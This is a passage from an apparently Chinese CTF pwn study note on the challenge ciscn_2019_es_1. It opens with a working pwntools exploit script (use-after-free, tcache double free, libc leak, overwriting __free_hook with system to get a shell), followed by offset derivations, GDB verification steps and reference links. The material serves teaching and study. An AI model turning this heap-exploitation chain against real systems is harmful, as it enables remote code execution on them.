def Allocate(size=0x18, payload=b'\n'):
    r.sendlineafter(b'choice:', b'1')
    r.sendlineafter(
        b"Please input the size of compary's name",
        str(size).encode(),
    )
    r.sendafter(b'please input name:', payload)
    r.sendafter(b'please input compary call:', b'/bin/sh\x00')

def Show(index):
    r.sendlineafter(b'choice:', b'2')
    r.sendlineafter(b'Please input the index:', str(index).encode())

def Free(index):
    r.sendlineafter(b'choice:', b'3')
    r.sendlineafter(b'Please input the index:', str(index).encode())

# 创建堆块：0 用于 unsorted leak；1 用于 tcache dup；2 的 name 是 /bin/sh。
Allocate(0x410)                  # 0
Allocate(0x60)                   # 1
Allocate(0x18, b'/bin/sh\x00')   # 2

# Double Free：本远程题实例须为本题需要的早期 2.27 行为。
Free(1)
Free(1)

# 泄露 libc：0x410 对应的大 chunk 不进 tcache；show(0) 读出 freed user area 的 fd。
Free(0)
Show(0)
r.recvuntil(b'name:\n')
leak = u64(r.recvn(6).ljust(8, b'\x00'))
libc.address = leak - 0x70 - libc.sym['__malloc_hook']
assert libc.address & 0xfff == 0

free_hook = libc.sym['__free_hook']
system = libc.sym['system']
log.success('libc_base: ' + hex(libc.address))
log.success('free_hook: ' + hex(free_hook))

# Tcache Poisoning：S -> S 自环；第一次重用 S 时把它的 next 改为 __free_hook。
# 只发送 8-byte 地址；题目 read 是单次调用，是否收到完整 8 字节须在目标环境确认。
Allocate(0x60, p64(free_hook))   # 3
Allocate(0x60)                   # 4
Allocate(0x60, p64(system))      # 5：向 __free_hook 写入 system

# 触发：Free(2) 的第一个参数是 name 指针，即 /bin/sh。
Free(2)
r.interactive()
```

#### 这份 `Path` 简版脚本怎么读

本次附件把本地启动写成：

```python
here = Path(__file__).resolve().parent
elf = ELF(str(here / 'ciscn_2019_es_1'))
libc = ELF(str(here / 'libc.so.6'))
ld = here / 'ld-2.27.so'

r = process([str(ld), '--library-path', str(here), elf.path])
# r = remote(host, port, ssl=True, sni=host)
```

| 代码 | 人话 | 要核对的边界 |
|---|---|---|
| `Path(__file__).resolve().parent` | 取 `exp.py` 自己所在的目录。后面的 ELF、libc、loader 路径以脚本目录为起点，因此从别的当前目录启动也能找到文件 | `libc.so.6` 和 `ld-2.27.so` 必须确实位于这个目录；若它们放在 `glibc227/lib/x86_64-linux-gnu/`，三个路径都要改到同一套目录 |
| `ELF(...)` | pwntools 读取 ELF 符号和架构信息，供 `libc.sym[...]`、`elf.path` 等使用 | 读入题目 libc **不等于**让正在运行的进程使用它 |
| `process([ld, '--library-path', here, elf.path])` | 明确让题目 loader 启动 ELF，并把该目录作为共享库搜索目录 | 必须确认 loader 与 libc 是配套构建；启动后看 `io.libs()` 或 GDB mappings，证明进程实际加载路径 |
| 注释掉的 `remote(...)` | 这是另一条连接方式；按附件当前状态，本地 `process(...)` 生效，远程行只是示例 | 切到远程时不要同时启动本地进程；本地 loader/libc 不会改变远程服务的运行环境 |

原脚本里的 `binary` 变量如果没有传给 `ELF()` 或 `process()`，只是未使用变量，不影响运行，但可以删掉减少干扰。脚本把远程 host、port、TLS/SNI 写死时，它只适用于对应且仍开放的授权题目实例；本地调试不需要这个地址。

`Allocate()` 用 `str(size).encode()` 发送十进制文本长度，例如 `0x60` 会发 `96\n`；name 和 phone 则是原始字节输入。目标调用的是单次 `read(fd, buf, n)`，最多读 `n` 字节，不保证把一次输入补齐，也不会自动给 name 加 NUL。脚本只发送 `p64(free_hook)` 或 `p64(system)` 的 8 字节，依赖目标 `read` 实际接受这 8 字节后返回；若要把它当作已验证事实，应在 GDB 看 `read` 返回值和写入范围，而不是仅凭 `sendafter()` 函数名推断。

最后，`r.interactive()` 只是把终端交给 pwntools；它本身不证明已经拿到 shell。要证明触发成功，需要看到目标交互行为与预期一致，并结合 GDB 证据确认 `free` 的参数指向 `/bin/sh`、旧 hook 实际转入 `system`。利用链的内存变化见本页第 3～5 节；脚本的候选与验证边界见第 6.1 节。

这行基址计算不是凭空的 `0x70`：典型早期 2.27 unsorted `fd` 泄露为 `main_arena + 0x60`，而 `main_arena = __malloc_hook + 0x10`，因此：

```text
libc_base
= leak - 0x60 - 0x10 - offset(__malloc_hook)
= leak - 0x70 - libc.sym['__malloc_hook']
```

远程没有 `io.libs()` 与 GDB mapping 可直接看，所以这份脚本至少应保留两个检查：`libc.address & 0xfff == 0`，以及用第二个已知 libc 符号/泄露交叉确认版本。页对齐通过只代表“公式看起来可能正确”，不单独证明远程 libc 与本地 `glibc227` 完全匹配。

> [!success] 本附件用数字验算过这行公式（2026-10-11）
> 配套 `libc-2.27.so`（`2.27-3ubuntu1`）中 `__malloc_hook = 0x3ebc30` → `main_arena = 0x3ebc40` → unsorted `fd` 所在 `main_arena+0x60 = 0x3ebca0`。于是 `0x3ebca0 - 0x3ebc30 = 0x70`，与脚本里的 `leak - 0x70 - libc.sym['__malloc_hook']` **正好吻合**。
> 所以本地自检可以再加一条硬筛子：**泄露值末 12 位必须是 `0xca0`**。不是这个值，说明进 unsorted 的不是你以为的那块，或加载的不是这份 libc——此时不要调 offset，先回去看环境与 bin 状态。

## 7. 最小验收：做到哪才算学到这题

### Example A：允许完整讲解的复盘

能用自己的话说明：

```text
UAF 给了什么能力？
为什么大块和 guard chunk 有助于观察 unsorted？
为什么 leak 先是 libc 内地址而不是 base？
小块 free 后为什么必须看 bin，而不是猜 tcache？
为什么 hook = system 还必须 free("/bin/sh")？
```

### Test B：附件到手后的迁移验证

> [!todo] 当前状态（2026-10-11）：**未通过，待执行**
> 附件已到手，静态面（菜单、name 指针生命周期、`free` 不清零）已由反汇编核验，但第 2、3、4 项要求的是**动态**证据（bin 归属、leak offset 来源、`$rdi`），尚未在配套 2.27 环境下取得。先把启动方式改对（`2026-10-11-ciscn_2019_es_1-附件核验与core现场` 的「下一步」），再按下面 5 项做。

先不看本页与公开 WP，只完成以下内容：

1. 写出菜单功能与 name 指针生命周期；
2. 用两次小实验分别证明“show-after-free”与“某个 chunk 进入哪个 bin”；
3. 从实际 leak 写出 `base = leak - offset` 中 offset 的来源；
4. 在 `free` 入口检查 `$rdi`，解释最终参数为何来自被释放 chunk；
5. 记录失败现象，而不是把公开 EXP 中的常数挨个试一遍。

完成后新建 Research Log，按 `PWN学习工作流与模板` 写下命令、`bins` 输出、leak、mapping、原假设和修正；通过 48 小时变式后，才更新 `PWN学习档案`。

## 8. 公开资料与它们各自的用途

### 8.1 先看哪两篇

1. [fheap：buu第三页笔记](https://www.cnblogs.com/fheap/p/17853530.html) 的 `32、ciscn_2019_es_1` 小节：适合先看**对象有两层**这个事实。它描述了固定小结构体、`name` 指针、size 与电话字段，也把“只 free 自定义大小 name chunk”说得比较直观。读完后要能画出本页的 `table → info → name` 图。
2. [CoLin：BUUCTF Pwn Writeups (12)](https://hornos3.github.io/2023/03/06/buuctf-pwn-write-ups-12/) 的 `buu094-ciscn_2019_es_1` 小节：适合对照**大块 show 泄露 → 小块 tcache dup** 的阶段顺序。它还记录了“题目文字写 2.29、公开复现却使用 2.27”的环境差异，正好用来提醒自己：版本必须以附件核验。

### 8.2 其他文章分别用来核对什么

| 资料 | 用它核对什么 | 不该直接照搬什么 |
|---|---|---|
| [Dav-ove3：BUUCTF-pwn(11)](https://www.cnblogs.com/Dav-ove3/p/17244067.html) | 菜单顺序、`add/show/call` 的公开调用方式，以及“大块 UAF 泄露 + 小块重复 free”是同一条历史路线的两段 | 它选的是 `one_gadget` 类终点；不能因此默认自己的栈 / 寄存器约束也满足 |
| [z5onk0：BUUCTF 刷题记录（三）](https://www.cnblogs.com/z5onk0/p/17650163.html) | `show` 读取 freed name、unsorted leak、再写旧 `__free_hook` 的简化路线 | 文中的远程节点、libc 文件、`-96` 和请求大小；它们是该复现环境的观测值 |
| [狒猩橙：tcache double free](https://www.cnblogs.com/pwnfeifei/p/15749706.html) | 把两次 `delete(1)` 与随后同尺寸 `add` 连起来看，理解“第一次重用旧 chunk 才有机会改 next” | 最后写 `one_gadget` 的具体偏移；one-gadget 有约束，不能只因地址存在就跳过去 |
| [安全客：heap WP 汇总](https://www.anquanke.com/post/id/241064) | 当作术语与旧 heap 路线的补充索引 | 把汇总中的版本、常数或整段 EXP 迁移到附件不明的环境 |
| [glibc-2.27 原始 malloc.c](https://github.com/bminor/glibc/blob/glibc-2.27/malloc/malloc.c) | 对照本题历史路线所需的裸 `next` tcache entry 与 `entries` 取块逻辑 | 用维护分支、发行版回补源码或版本字符串替代题目实际 libc |
| [release/2.27 维护分支 malloc.c](https://github.com/bminor/glibc/blob/release/2.27/master/malloc/malloc.c) | 对照后来为何会出现 `e->key` double-free 检查，理解“2.27”并非唯一行为 | 误以为它必然就是本题附件的精确源码 |

> [!warning] 公开 WP 之间的不同，不是让你“选一篇最像的抄”
> 这些文章可能一个写 `__free_hook = system`，另一个写 `__malloc_hook = one_gadget`；也可能对 glibc 版本、chunk 大小或远程端口写出不同结论。共同部分可以作为**待验证的逻辑骨架**，不同部分应转成附件上的问题：实际 libc 是谁？实际 `free` 走哪条分支？我现在的 primitive 能写到哪里？最终调用的寄存器 / 参数是否满足？

### 8.3 看完文章以后，必须回到本地做的四个验证

```text
1. 断在 __libc_free：确认 delete(i) 的 $rdi 真等于 info->name。
2. delete 大块后看 bins：确认它真的进入 unsorted，而不是 tcache / 合并 / top。
3. show(i) 前看 x/32bx name：确认输出的原始字节正来自 freed user area。
4. 若考虑旧 hook：先确认题给 libc < 2.34，再证明 malloc 返回的指针真实落到目标槽。
```

版本与路径判断见 `glibc版本差异`；本地 loader/libc 的可逆配置见 `patchelf换libc`；`one_gadget` 的约束为何不能省略，见 `one_gadget`。

### 8.4 可选视频

[B 站搜索：ciscn_2019_es_1](https://search.bilibili.com/all?keyword=ciscn_2019_es_1) 只作为动态画面的补充；它是搜索页，不是稳定的单一题解来源。看视频时不要抄地址、端口或 EXP 顺序，而是把内容归到下面六类：

| 视频中看到的画面/说法 | 应归入的知识点 | 看完应能回答的问题 |
|---|---|---|
| IDA 里的 `add / show / call` | 主题 A：对象模型 | 一条记录是一个 chunk，还是 `info + name` 两层对象？ |
| `free(name)` 后仍能 `show` | 主题 B：UAF | 被释放的是哪一个对象？旧指针为什么仍存在？ |
| 大块、`main_arena`、六字节地址 | 主题 C：unsorted bin 与信息泄露 | 泄露的是哪一块内存中的哪一个管理字段？为何能反推 libc？ |
| 小块、`fd/next`、重复释放、tcache | 主题 D：空闲链表 | 空闲块用户区为什么会保存 next？版本检查在哪里改变结论？ |
| `__free_hook`、`system`、`/bin/sh` | 主题 E：函数指针与参数 | 被写入的是函数地址还是字符串？最后调用的第一个参数来自哪里？ |
| `glibc 2.27`、`2.35`、`ld`、崩溃日志 | 主题 F：版本与环境 | 视频环境和本地实际加载的 libc 是否相同？证据是什么？ |

视频给出结论时，优先把它转成一个可验证的问题；例如“这里是 tcache dup”应改写为：**当前进程的 tcache `entries`、`count` 和该 chunk 的 `next` 分别是什么？** 这样视频是解释材料，GDB 才是最后证据。

## 9. 我的理解：这题真正练的是“指针生命周期”

我不会把这题概括成“tcache dup 改 `__free_hook`”。那只是旧版环境中最后看得见的一段。更准确的理解是：

```text
程序认为：delete 后这项已经没了
实际状态：表里还保存着旧指针
                    │
                    ├─ allocator 把这块内存当作空闲块管理
                    └─ 程序仍把它当作 name 来读 / 再次释放
```

这两套“谁拥有这块内存”的认知不一致，才是漏洞本体。后面的 leak、double free、tcache 都是在不同阶段放大这个不一致。

### 9.1 为什么先泄露，再做小块链表控制

初学时容易一看到 UAF 就先 double free 小块。但那时你通常还不知道 libc 的基址，也不知道“下一次 malloc 应该被引到哪里”。

所以这题比较自然的顺序是：

```text
大块 UAF
  → 观察 allocator 给它留下的 libc 相关指针
  → 得到模块基址
  → 才有能力计算一个随 ASLR 改变的目标地址
  → 小块 UAF / 重复释放
  → 让后续 malloc 在正确位置给你一个可写指针
```

换句话说：**泄露解决“目标地址在哪里”，链表控制解决“怎样把写入送到那里”。** 两步不能颠倒成一条魔法咒语。

### 9.2 guard chunk 不是凑数

大块后面留一个仍在使用的 guard chunk，看起来像多申请了一次没有用途的内存，实际是在控制分配器的分支：

```text
[ A: 想观察的大块 ][ B: guard ][ top chunk ]
             free(A)
```

如果 A 紧挨着 top 或一个可合并的空闲邻居，它可能被合并，`show(A)` 看到的内容就不再是你想观察的 unsorted-bin 状态。B 的作用是让 A 的相邻关系更可预测。它不是“任何堆题都要加一个 guard”的模板，而是当你需要稳定观察 A 的释放去向时，用来排除合并这个变量。

### 9.3 “UAF 能写”也不是自动任意写

UAF 最初只说明：程序还允许你通过旧指针读或写**那一块已经被 free 的内存**。要升级成“影响下一次 malloc 返回位置”，还必须满足：

1. 这块内存确实已经由 allocator 当作某条空闲链的节点；
2. 程序给你的写入真的覆盖到了 allocator 之后会读取的字段；
3. 当前 glibc 对该字段没有额外编码或完整性检查，或者你已按该版本规则处理；
4. 后续 malloc 的请求大小确实会走回这条链。

所以 `bins`、`vis_heap_chunks`、chunk header 和“下一次 malloc 返回什么”比背 `p64(target)` 更重要。没有这四条中的证据时，所谓 poisoning 只是一种猜测。

### 9.4 `__free_hook` 是终点选择，不是能力来源

我会把这题拆成两句，而不是一句：

```text
能力：让一次编辑最终写到一个指定地址。
终点：在旧 libc 中选择 __free_hook，并用 free(p) 触发它。
```

前一句来自 UAF 与 allocator 状态；后一句只在旧 hook 路径真实存在时才可选。若附件是 glibc 2.34+，第二句应当被删除，但第一句仍然可能成立——这时该重新分析题目有没有其他可触发的函数指针、对象或输出路径，而不是硬把 hook 地址换成别的名字。

### 9.5 我会怎样排错

出现问题时，优先按因果链倒查：

| 现象 | 我先怀疑什么 | 第一条证据 |
|---|---|---|
| `show` 是空的或乱码 | 读到的位置、字符串结束符、chunk 去向不对 | `x/32bx <user_ptr>` 看原始字节；`bins` 看 chunk 实际归属 |
| leak 算出的 base 不页对齐 | 收取长度不完整、减错了字段偏移、libc 不匹配 | leak 与 `info proc mappings`、第二个符号交叉比对 |
| 第二次 delete 直接 abort | 目标库的重复释放检查生效，或根本不是同一 user pointer | 在两次 `free` 前看 `$rdi`，再看报错前的 tcache 状态 |
| malloc 没落到预期位置 | 请求大小不匹配、链字段未覆盖、Safe-Linking / 检查未满足 | 每次 malloc 都记录返回指针与对应 bin |
| 写完 hook 后 free 没有预期行为 | hook 路径不存在、写错位置、参数不是期望字符串 | `x/gx hook_addr`、断 `__libc_free` 看 `$rdi` 和实际分支 |

这张表是我认为这题最可迁移的部分：**别把“最后没有 shell”当成一个错误；要问链条最早在哪一步偏离了预期。**

## 10. GDB 联调：两终端与证据检查点

> [!note] 本节状态
> 这是按当前 EXP 交互流程整理的调试操作模板，不代表本轮已在 Linux/配套 glibc 2.27 中重新跑过。具体断点、符号名、地址与输出必须以当前 ELF、loader、libc 和 GDB 现场为准；本页学习等级不因此改变。

### 10.1 先分清三个进程/工具各做什么

```text
终端 A：Python EXP ── send/recv ──> 目标程序
                                      ↑
终端 B：GDB ───────── attach/continue ┘
```

| 动作 | 谁暂停/运行 | 应该记住什么 |
|---|---|---|
| Python `pause()` | 暂停 Python 脚本 | 不会自动冻结目标进程；目标可能仍在菜单输入处运行 |
| GDB 断点命中 | 暂停被调试的目标进程 | Python 后续的 `recvuntil()` 可能因此等待，先看 GDB 当前停点 |
| GDB `continue` | 恢复目标进程 | 目标继续读输入/执行；之后 Python 才可能收到输出并前进 |
| `finish` | 执行完当前函数并停回调用者 | 先用 `bt`、`x/i $rip` 确认当前帧；不要在 `read()` 等待输入时误用它 |

稳定的操作节奏是：**先让 EXP 到检查点暂停 → GDB 检查当前现场 → 只在确认当前函数后单步/`finish` → 需要 EXP 继续时在 GDB 输入 `continue` → 回到 Python 解除 `pause()`。** 如果 Python 显示等待菜单，而 GDB 停在断点，优先判断目标是否还没 `continue`，不要盲目再发一次菜单选项。

最简单的双终端方式是在 EXP 启动目标后打印 PID 并暂停：

```python
io = process('./ciscn_2019_es_1_patched')
print(f'PID={io.pid}')
pause()  # 只暂停 Python；另一终端用 gdb -q -p <PID> 附加
```

另一终端运行 `gdb -q -p <PID>`。附加后先 `bt` 确认目标是否在菜单 `read` 等输入；必要时设断点，再 `continue`。回到 EXP 按回车，脚本才会继续发送。若题目使用专用 loader/libc，应确保 EXP 的 `process()` 启动方式与 `#6.0.2 怎样安全修复本地环境` 一致。也可以用 `gdb.attach(io)` 自动附加或 `gdb.debug(...)` 从启动时调试；通用差异见 `PWN动态调试通用思路#三种“让 GDB 看到进程”的办法`。

### 10.2 在 `free` 入口先保存参数，再执行

在 EXP 已启动、目标停在菜单等待处时，附加 GDB（或使用 `gdb.debug()` 从启动时接管）：

```gdb
(gdb) info inferiors
(gdb) info sharedlibrary
(gdb) info proc mappings
(gdb) break free
(gdb) continue
```

`info sharedlibrary` / `info proc mappings` 用来确认这次进程实际加载的 libc/loader；目录中存在 2.27 文件、或 Python 用 `ELF()` 读取它，都不能代替运行时映射证据。命中 `free` 后先做：

```gdb
(gdb) bt
(gdb) x/i $rip
(gdb) p/x $rdi
(gdb) set $freed = (unsigned long)$rdi
(gdb) x/4gx ($freed - 0x10)
```

在 AMD64 SysV ABI 下，普通函数入口的第一个参数通常在 `RDI`，因此本题 `free(ptr)` 入口时 `$rdi` 是待释放的用户指针。保存 `$freed` 是为了避免 `free` 执行过程中 caller-saved 寄存器变化。Chunk header 常见在 user pointer 前 `0x10`，但应先用本题反汇编与实际内存核对；`x/4gx` 是检视方式，不是 header 布局保证。

若要执行到 `free` 返回：

```gdb
(gdb) finish
(gdb) x/2gx $freed
(gdb) bins
```

`finish` 后用户区可能已被 allocator 用作 `next`、`fd/bk` 等管理字段；具体看实际 bin 路径。GDB 的 `$rdi` 是 caller-saved，不能假设 `finish` 后还保留原指针，所以先保存到 `$freed`。

当 EXP 完成泄露并打印本轮计算出的运行时地址后，如果需要在 GDB 中比较目标地址，可在**同一进程仍存活时**设 convenience variables：

```gdb
(gdb) set $hook = 0x本轮打印的free_hook地址
(gdb) set $sys = 0x本轮打印的system地址
(gdb) x/gx $hook
(gdb) p/x $sys
```

把占位内容替换成 EXP 当前这一轮的十六进制实值；进程重启后 ASLR 会变化，旧 `$hook` / `$sys` 不能复用。若目标实际使用的 libc 尚未确认，不要用这些地址作结论。

### 10.3 本题按“预测 → 观察 → 判断”检查

| 阶段 | 先预测 | 停点与命令 | 什么结果才支持预测 |
|---|---|---|---|
| 第一次 `delete(1)` | 释放小 name S | `free` 入口保存 `$rdi`；返回后 `x/gx $freed`、`bins` | 入口地址记录为 S；返回后 S 所属 size class 有对应节点。旧版 tcache 空链时 `next` 常见为 0，但须以版本和现场为准 |
| 第二次 `delete(1)` | 若该构建未拒绝重复释放，参数仍是 S | 入口比较 `$rdi == $small`；执行后看 `x/gx $small`、`bins` | 参数相同，并且链字段/计数与预期重复节点状态相符；若 abort 就停下核对 libc 和检查路径 |
| `delete(0)` 大块 | B 可能进入 unsorted | 入口保存 `$big`，先看 `x/gx ($big-8)`；返回后 `bins`、`x/2gx $big` | 只有确认 bin 与 `$big` 用户区 `fd/bk` 后，才能把读到的值当作该版本的 unsorted leak |
| `show(0)` | 悬空 name 指针仍被打印 | 观察输出边界；原始字节用 `x/16bx $big` | 打印数据与 B 的用户区开头一致，才能确认 leak 来自该块 |
| 小块重分配 | allocator 先弹出链头；程序随后写入 name | 在目标分配调用前后看请求寄存器与返回值；分别检查 `$small` 内容、`bins` | 先证明 malloc 返回的是哪个地址，再证明后续 `read` 写了什么；别把 `malloc` 返回与写入混成同一动作 |
| 目标槽分配 | 旧版链操纵可能使 `malloc` 返回 H | 在 malloc 入口确认请求大小；`finish` 后比较 `$rax` 与 `$hook` | 只有 `$rax == $hook` 才证明这次分配返回目标槽；该结论不适用于现代 Safe-Linking 路径 |
| hook 触发 | 旧 hook 分支若存在，首参数应仍是命令指针 | 先设置 `break *$sys` 再继续；命中后 `p/x $rdi`、`x/s $rdi` | 看到 `$rdi` 指向 NUL 结尾的 `/bin/sh` 才能证明 system 参数正确；不要在 hook 已覆盖后对该次 free 直接 `finish`，因为它可能进入 shell 并阻塞 |

> [!warning] 命令输出不是实测证据
> 上表的地址、`next` 内容和 bin 名称都是要验证的预测。`free` 的内部符号可能显示为 `__GI___libc_free` 等；若 `break free` 未命中，先用 `info functions free`、`bt`、`info breakpoints` 检查符号与断点，不要改用未经确认的固定地址。

### 10.4 `RDI` 与 `RAX` 要按调用阶段读

```text
malloc(size) 入口：RDI = 请求大小
malloc 返回后：RAX = 返回的用户指针

free(ptr) 入口：RDI = 待释放的用户指针
free 返回后：RAX 没有“仍是 ptr”的保证
```

因此先看 `bt` 和 `x/i $rip` 确认自己在什么函数，再解释寄存器。若在 `free` 断点处看到 `$rdi`，它回答“这次 free 收到什么”；若在 `malloc` 函数入口看到 `$rdi`，它回答“申请多大”；执行完 malloc 后 `$rax` 才回答“分配器返回哪里”。

### 10.5 环境与边界

- 本地必须通过 `info proc mappings`、`info sharedlibrary` 或 pwntools `io.libs()` 证明使用的是目标配套 loader/libc；本题旧 tcache 路径不能由版本字符串单独保证。
- 远程无法附加本地 GDB。题面/附件/泄露可以提供证据，但本地 GDB 观察不能冒充远程运行时证据。
- `0x70`、`main_arena` 关系、`__malloc_hook` 和 `__free_hook` 都是特定 libc 构建相关数据；按 `libc泄露偏移定位` 的步骤确定泄露字段与符号偏移。
- glibc 2.32 起 Safe-Linking 会改变 tcache `next` 的存储形式；glibc 2.34 起旧 malloc/free hooks 不再被正常主路径调用。参考路线失效时回到当前 allocator 状态，不要只替换一个地址。

通用输入与调试器协作见 `PWN动态调试通用思路#三种“让 GDB 看到进程”的办法`；命令本身见 `GDB与Pwndbg入门`。

## 最后一行

> 这题真正的路线是：**悬空指针让你读 allocator 写进去的数据，也让你在正确版本条件下改 allocator 之后会读的数据。** `__free_hook` 只是旧版条件满足后的一个终点，不是题目的起点。

## 相关代码与实战模板

- 本页模板入口：`malloc/free 生命周期实验` · `glibc LIFO 地址复用观察（需 GDB 确认 tcache）` · `pwntools EXP 启动骨架` · `GDB 观察模板`。
- 全局选择：`选择指南`；完整逐篇清单：`逐篇映射表`。
- 相关题目/WP：本页即题解；`全部题解索引`。
- 本页已有代码片段是教学/题解材料；除非验证报告明确记录对应目标和验收结果，不应视为可运行模板或 exploit 成功。
